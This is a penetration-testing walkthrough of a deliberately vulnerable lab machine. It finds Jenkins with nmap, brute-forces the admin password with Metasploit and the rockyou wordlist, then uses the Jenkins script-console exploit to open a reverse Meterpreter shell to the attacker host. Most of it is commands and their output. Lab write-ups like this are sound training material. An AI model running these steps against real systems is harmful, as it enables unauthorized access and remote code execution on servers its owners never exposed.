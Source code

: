 # Jenkins

## Port scanning to identify Jenkins

Let's scan the target machine (`canyoupwnme`) with `nmap`

    $ nmap -A -T4 -sT -p1-65535 canyoupwnme
    ...
    9000/tcp  open  http        Jetty winstone-2.9
    |_http-favicon: Unknown favicon MD5: 23E8C7BD78E8CD826C5A6073B15068B1
    | http-methods:
    |_  Supported Methods: GET HEAD POST OPTIONS
    | http-robots.txt: 1 disallowed entry
    |_/
    |_http-server-header: Jetty(winstone-2.9)
    |_http-title: Dashboard [Jenkins]
    ...

Jenkins is reachable on port `9000`!

## Information gathering

Jenkins exposes an endpoint (`/people` or `/asynchPeople`) where all the
defined users are listed. In the target machine, the following users are
defined

*   admin (Jarvis)
*   anonymous (anonymous)

After trying the login with few terrible combinations (e.g. `admin/admin`),
let's see if Metasploit can help us

    msf > search jenkins

    Matching Modules
    ================

       Name                                         Disclosure Date  Rank       Description
       ----                                         ---------------  ----       -----------
       auxiliary/gather/jenkins_cred_recovery                        normal     Jenkins Domain Credential Recovery
       auxiliary/scanner/http/jenkins_enum                           normal     Jenkins Enumeration
       auxiliary/scanner/http/jenkins_login                          normal     Jenkins-CI Login Utility
       exploit/linux/misc/jenkins_java_deserialize  2015-11-18       excellent  Jenkins CLI RMI Java Deserialization Vulnerability
       exploit/multi/http/jenkins_script_console    2013-01-18       good       Jenkins Script-Console Java Execution

Let's try with `auxiliary/scanner/http/jenkins_login` and Rockyou wordlist

    msf > use auxiliary/scanner/http/jenkins_login
    msf auxiliary(jenkins_login) > set username admin
    msf auxiliary(jenkins_login) > set pass_file rockyou.txt
    msf auxiliary(jenkins_login) > set rhosts canyoupwnme
    msf auxiliary(jenkins_login) > set rport 9000
    msf auxiliary(jenkins_login) > set stop_on_success true
    msf auxiliary(jenkins_login) > exploit

    [-] 10.0.100.195:9000 JENKINS - LOGIN FAILED: admin:123456 (Incorrect)
    [-] 10.0.100.195:9000 JENKINS - LOGIN FAILED: admin:12345 (Incorrect)
    [-] 10.0.100.195:9000 JENKINS - LOGIN FAILED: admin:123456789 (Incorrect)
    ...
    [-] 10.0.100.195:9000 JENKINS - LOGIN FAILED: admin:flower (Incorrect)
    [-] 10.0.100.195:9000 JENKINS - LOGIN FAILED: admin:playboy (Incorrect)
    [+] 10.0.100.195:9000 - LOGIN SUCCESSFUL: admin:hello
    [*] Scanned 1 of 1 hosts (100% complete)
    [*] Auxiliary module execution completed

Yep! Credentials are `admin/hello`...

## The Groovy scripts

Two years ago, I read an interesting post entitled
[How I hacked Facebook](http://blog.dewhurstsecurity.com/2014/12/09/how-i-hacked-facebook.html).
It refer to an unprotected Jenkins instance where the author used a Groovy
script to execute some commands on the server. Why not trying the same?

In the previsour Metasploit search, there is something interesting

    exploit/multi/http/jenkins_script_console

Let's try with it...

    msf > use exploit/multi/http/jenkins_script_console
    msf exploit(jenkins_script_console) > set username admin
    msf exploit(jenkins_script_console) > set password hello
    msf exploit(jenkins_script_console) > set rhost canyoupwnme
    msf exploit(jenkins_script_console) > set rport 9000
    msf exploit(jenkins_script_console) > set targeturi /
    msf exploit(jenkins_script_console) > set target 1
    msf exploit(jenkins_script_console) > exploit

    [*] Started reverse TCP handler on 10.0.100.245:4444
    [*] Checking access to the script console
    [*] Logging in...
    [*] canyoupwnme:9000 - Sending Linux stager...
    [*] Transmitting intermediate stager for over-sized stage...(105 bytes)
    [*] Sending stage (1495599 bytes) to 10.0.100.195
    [*] Meterpreter session 2 opened (10.0.100.245:4444 -> 10.0.100.195:44531) at 2016-04-18 18:13:30 +0200
    [!] Deleting /tmp/AaqyV payload file

    meterpreter > shell
    Process 1840 created.
    Channel 1 created.
    /bin/sh: 0: can't access tty; job control turned off
    $ whoami
    jenkins
    $ id
    uid=109(jenkins) gid=117(jenkins) groups=117(jenkins)
    $

Got it!

## Becoming `root`

Work in progress...
